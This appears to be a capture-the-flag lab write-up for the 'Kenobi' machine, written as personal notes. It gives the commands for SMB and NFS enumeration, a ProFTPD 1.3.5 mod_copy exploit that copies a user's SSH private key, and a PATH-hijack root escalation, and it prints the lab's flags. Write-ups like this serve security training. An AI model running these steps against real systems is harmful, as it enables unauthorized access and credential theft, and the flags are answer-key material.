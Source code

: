 # Kenobi

## Task 1 - nmpa Scan

How many ports are open

	nmap -sC -sV -oA nmap/initial 10.10.72.236

## Task 2 - Enumerating Samba for shares

Here is something new SMB enumeration script for nmap

	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.72.236
	Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-07 16:49 EST
	Nmap scan report for 10.10.72.236
	Host is up (0.043s latency).

	PORT    STATE SERVICE
	445/tcp open  microsoft-ds

Check out the smb shares

	smbclient //10.10.72.236/anonymous

Here we finde log.txt
Download everything

	smbget -R smb://10.10.72.236/anonymous

-> Examin log.txt

I found information of an ssh key and the configuration of the FTP Server

Further enumeration of open ports with

	nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.72.236 
	Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-07 17:25 EST
	Nmap scan report for 10.10.72.236
	Host is up (0.042s latency).

	PORT    STATE SERVICE
	111/tcp open  rpcbind
	| nfs-showmount: 
	|_  /var *

	Nmap done: 1 IP address (1 host up) scanned in 0.64 seconds


## Task 3 - Gain initial access with ProFtpd 

Use NC to get the Version Info

	nc 10.10.72.236 21
	220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.72.236]

This version fo ProFTPD is vulnarable to an attack using SITE CPFR and SITE CPTO which lets you copy any file.
We know where the SSH Key of user kenobi is stored so we can copy that to our machine	

	SITE CPFR /home/kenobi/.ssh/id_rsa
	350 File or directory exists, ready for destination name
	SITE CPTO /var/tmp/id_rsa
	250 Copy successful

Mount /var/tmp from the other machine to ours

	mkdir /mnt/kenobiNFS
	mount machine_ip:/var /mnt/kenobiNFS
	ls -la /mnt/kenobiNFS

We can now go to /var/tmp and get the privat ssh key.
Give proper permissions for the key

	sudo chmod 600 id_rsa

use -i with ssh to specify identity file
In kenobis ~/ there is a user.txt with a flag

d0b0f3f53b6caa532a83915e19224899

## Task 4 - Escalate Privileges with PATH Variable Manipulation

Start enumeration by looking for SUID bits

	find / -perm -u=s -type f 2>/dev/null
	/usr/bin/menu

We moved to the tmp directory and created a binary invoking the /bin/sh and named it to curl. 
Then we changed the permission of the binary to be executable. At last, we added this curl into 
the local path using the export command. Now running the menu binary, we choose an option from the 
menu and we got ourselves the root shell. We read the root flag and conclude this machine.
	
	cd /tmp
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu

	cat /root/root.txt

177b3cd8562289f37382721c28381f02

----

### Important info:

My IP: 10.9.222.124

Target IP: 10.10.115.154

### Gathered Info

smb usr: guest (READ/WRITE)

usr1: kenobi

----

